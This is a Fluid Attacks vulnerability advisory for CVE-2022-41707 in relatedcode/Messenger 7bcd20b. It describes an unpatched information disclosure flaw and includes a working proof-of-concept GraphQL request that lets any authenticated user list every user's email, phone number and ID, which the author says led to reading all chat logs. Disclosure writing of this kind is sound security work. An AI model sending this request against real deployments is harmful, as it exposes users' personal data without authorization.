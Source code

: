 ```yaml
---
slug: advisories/coldplay/
title: relatedcode/Messenger 7bcd20b - Information Disclosure
authors: Carlos Bello
writer: cbello
codename: coldplay
product: relatedcode/Messenger 7bcd20b
date: 2022-10-14 10:00 COT
cveid: CVE-2022-41707
severity: 6.5
description: relatedcode/Messenger 7bcd20b  -  Sensitive Information Disclosure
keywords: Fluid Attacks, Security, Vulnerabilities, Relatedcode, Messenger
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | relatedcode/Messenger 7bcd20b  -  Sensitive Information Disclosure |
| **Code name**         | [Coldplay](https://en.wikipedia.org/wiki/Coldplay)                 |
| **Product**           | relatedcode/Messenger                                              |
| **Affected versions** | Version 7bcd20b                                                    |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Business information leak - Personal Information                                                                            |
| **Rule**              | [226. Business information leak - Personal Information](https://docs.fluidattacks.com/criteria/vulnerabilities/226)         |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 6.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41707](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41707)                                             |

## Description

Relatedcode/Messenger version 7bcd20b allows an authenticated external attacker to
access sensitive data of any user of the application. This is possible
because the application exposes user data to the public.

## Vulnerability

The application exposes the session data of the users of the application
to the public. Among the exposed data are:

* ID
* Email
* PhoneNumber
* Etc

![image.png](https://user-images.githubusercontent.com/51862990/195862599-c66cafc2-09a1-457d-88ba-c4b2fabdf24a.png)

The ID exposed in this vulnerability will help us to exploit even a
[broken access control](../tiesto/)
present in this application.

## Exploitation

To exploit this vulnerability, simply create an account on the server and
then send the following request:

```txt
POST /graphql HTTP/2
Host: relatedchat.io:4000
User-Agent: Something
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://relatedchat.io/
Content-Type: application/json
Authorization: Bearer [YOUR TOKEN]
Origin: https://relatedchat.io
Content-Length: 356

{"operationName":"ListUsers","variables":{},"query":"query ListUsers($updatedAt: Date, $workspaceId: String) {\n  listUsers(updatedAt: $updatedAt, workspaceId: $workspaceId) {\n    objectId\n    displayName\n    email\n  fullName\n    phoneNumber\n    photoURL\n    theme\n    thumbnailURL\n    title\n    workspaces\n    createdAt\n    updatedAt\n  }\n}"}
```

## Impact

An authenticated remote attacker can access sensitive user data. This allows
an attacker to obtain enough information to escalate to more serious attacks.
In our case, we managed to exploit a broken access control thanks to the data
leaked in this vulnerability. Thanks to this I was able to access all the
internal chat logs of all registered users.

## Our security policy

We have reserved the CVE-2022-41707 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: relatedcode/Messenger 7bcd20b

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/relatedcode/Messenger>

## Timeline

<time-lapse
  discovered="2022-09-23"
  contacted="2022-09-23"
  replied="2022-09-23"
  confirmed="2022-09-23"
  patched=""
  disclosure="2022-10-14">
</time-lapse>

